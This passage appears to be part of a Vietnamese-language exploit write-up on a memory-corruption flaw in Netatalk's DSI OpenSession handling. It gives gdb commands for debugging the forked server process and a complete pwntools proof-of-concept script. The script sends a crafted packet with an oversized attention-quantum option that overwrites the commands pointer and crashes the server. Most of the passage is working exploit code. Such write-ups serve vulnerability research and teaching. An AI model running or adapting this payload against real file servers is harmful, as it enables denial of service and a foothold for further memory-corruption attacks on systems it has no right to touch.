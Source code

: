 ![output1.png](./images/output1.png)

- Để tiến hành DEBUG và xem cấu trúc bị ghi đè ta sẽ thay đổi PoC.py để ghi đè `*ptr commands` = `b'abcdefgh'` và tăng từ 12 ký tự lên 16 ký tự (bao gồm thêm `uint16_t serverID, clientID;`). 

```bash
$ sudo netstat -nap | grep 5566
$ gdb -p <idprocess> -q
   gdb> set follow-fork-mode child
   gdb> b dsi_opensession+139
   gdb> c
```

- [PoC.py](./PoC.py)

```python
#!/usr/bin/env python3
from pwn import *

context(endian="big", log_level="debug")
io = remote("127.0.0.1", "5566")

# payload after the DSI header
# copy to &dsi->attn_quantum
# dsi_opensession | commands = opt(1 byte) + len_payload(1 byte) + payload(n byte)
dsi_opensession = b""
dsi_opensession += b"\x01"  # case: dsi->commands[i++] = DSIOPT_ATTNQUANT
dsi_opensession += p8(0x18)  # dsi->commands[i] is length data, use copy
dsi_opensession += b"aaaabbbbccccddee"
dsi_opensession += b"abcdefgh"
# string overwrite ptr *dsi->commands = character
# => Segmentation fault => server not reply data to clients.

dsi_header = b""
dsi_header += b"\x00"  # dsi_flags     | request flag = 0
dsi_header += b"\x04"  # dsi_command   | DSIFUNC_OPEN(0x4) = openSession
dsi_header += b"\x00\x01"  # dsi_requestID | request id
dsi_header += p32(0)  # dsi_data
dsi_header += p32(len(dsi_opensession))  # dsi_len       | commands len
dsi_header += p32(0)  # dsi_reversed

dsi_header += dsi_opensession  # payload

io.send(dsi_header)
context = io.recv()
log.success("Data recv: " + str(context))
```